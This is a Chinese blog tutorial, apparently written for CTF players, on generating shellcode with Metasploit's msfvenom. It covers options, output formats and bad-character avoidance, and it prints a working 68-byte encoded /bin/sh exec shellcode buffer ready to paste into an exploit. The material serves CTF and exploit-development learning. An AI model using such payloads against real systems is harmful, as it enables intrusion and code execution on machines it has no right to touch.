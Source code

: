 # Shellcode生成器——msfvenom

url：http://brieflyx.me/2015/linux-tools/msfvenom-intro/





之前在打CTF的时候写exploit，总是为了找不到shellcode而发愁，最近更新的peda的shellcode生成功能好像都不好使了，只能使用那万年不变的24 bytes shellcode，而且还没办法规避某些特殊字符。

不过metasploit framework套件中的msfpayload与msfencode配合使用可以做到生成指定的payload，现在这两个工具进行了合并，这就是msfvenom。安装了整个msf的话这个工具就已经包含其中了。



## 参数介绍

之前也看过一些资料，不过好像其版本不同的话其参数也会略有不同，这里给出我自己的参数(版本4.11.4)

```
Options:
    -p, --payload       <payload>    Payload to use. Specify a '-' or stdin to use custom payloads
        --payload-options            List the payload's standard options
    -l, --list          [type]       List a module type. Options are: payloads, encoders, nops, all
    -n, --nopsled       <length>     Prepend a nopsled of [length] size on to the payload
    -f, --format        <format>     Output format (use --help-formats for a list)
        --help-formats               List available formats
    -e, --encoder       <encoder>    The encoder to use
    -a, --arch          <arch>       The architecture to use
        --platform      <platform>   The platform of the payload
        --help-platforms             List available platforms
    -s, --space         <length>     The maximum size of the resulting payload
        --encoder-space <length>     The maximum size of the encoded payload (defaults to the -s value)
    -b, --bad-chars     <list>       The list of characters to avoid example: '\x00\xff'
    -i, --iterations    <count>      The number of times to encode the payload
    -c, --add-code      <path>       Specify an additional win32 shellcode file to include
    -x, --template      <path>       Specify a custom executable file to use as a template
    -k, --keep                       Preserve the template behavior and inject the payload as a new thread
    -o, --out           <path>       Save the payload
    -v, --var-name      <name>       Specify a custom variable name to use for certain output formats
        --smallest                   Generate the smallest possible payload
    -h, --help                       Show this message
```

如果用过msf的童鞋应该对其payload以及exploit的过程比较熟悉，需要先使用一个payload然后指定一些option然后才能执行exploit，这里也是一样。

## payload生成

主要使用-a与-p这两个选项，不过用-l列出payload列表之后发现其实直接在payload里指定architecture就可以了，如下面的写法

```
$ msfvenom -p linux/x86/exec CMD=/bin/sh
```

注意这里必须给出CMD的值，可以通过–payload-options来查看它有哪些参数

```
$ msfvenom -p linux/x86/exec --payload-options
Options for payload/linux/x86/exec:


       Name: Linux Execute Command
     Module: payload/linux/x86/exec
   Platform: Linux
       Arch: x86
Needs Admin: No
 Total size: 36
       Rank: Normal

Provided by:
    vlad902 <vlad902@gmail.com>

Basic options:
Name  Current Setting  Required  Description
----  ---------------  --------  -----------
CMD                    yes       The command string to execute

Description:
  Execute an arbitrary command

...
```

一般ctf中取得shell就使用/bin/sh就可以了。关于其他的shell_bind_tcp还有更多的参数如LPORT等，可以自己研究。

## 编码与输出格式

-e选项可以指定encoder，这里我还没研究这个encoder有啥可以变的……

-f选项就是输出的格式，使用–help-formats查看可以输出的格式

```
$ msfvenom --help-formats
Error: Executable formats
    asp, aspx, aspx-exe, dll, elf, elf-so, exe, exe-only, exe-service, exe-small, hta-psh, loop-vbs, macho, msi, msi-nouac, osx-app, psh, psh-net, psh-reflection, psh-cmd, vba, vba-exe, vba-psh, vbs, war
Transform formats
    bash, c, csharp, dw, dword, hex, java, js_be, js_le, num, perl, pl, powershell, ps1, py, python, raw, rb, ruby, sh, vbapplication, vbscript
```

默认的输出格式是raw就是直接输出ayload的字符串，这样一般会出现乱码，所以和-o配合使用写入文件比较好。

还有就是转换成\x0a这种十六进制编码形式，我们要是在python里写exploit的话就可以指定`-f python`，如果需要c代码的话就可以用`-f c`。

## 规避特殊字符

使用-b选项指定需要规避的字符列表，针对不同的函数需要规避不同的字符，例如gets就需要避免使用\x0a这种，而scanf的限制则更多大部分空白符都不能有。例如产生一段exec的shellcode

```
$ msfvenom -p linux/x86/exec CMD=/bin/sh -f python -b '\x00\x0b'
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with An encoding exception occurred.
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 68 (iteration=0)
x86/call4_dword_xor chosen with final size 68
Payload size: 68 bytes
buf =  ""
buf += "\x31\xc9\x83\xe9\xf5\xe8\xff\xff\xff\xff\xc0\x5e\x81"
buf += "\x76\x0e\xd3\xc9\x64\xb3\x83\xee\xfc\xe2\xf4\xb9\xc2"
buf += "\x3c\x2a\x81\xaf\x0c\x9e\xb0\x40\x83\xdb\xfc\xba\x0c"
buf += "\xb3\xbb\xe6\x06\xda\xbd\x40\x87\xe1\x3b\xc1\x64\xb3"
buf += "\xd3\xe6\x06\xda\xbd\xe6\x17\xdb\xd3\x9e\x37\x3a\x32"
buf += "\x04\xe4\xb3"
```

接着把这段脚本复制进exploit中就可以使用了

PS:之前测试的时候发现一个问题，如果只指定`-b '\x0b'`的话，其payload中还是有0b，不知道是bug还是什么，如果使用`-b '\xb'`就不会出现这个问题。

## 其他选项

- 使用-n选项在payload前填充Nop Sled
- 使用-v选项指定变量名，默认就叫buf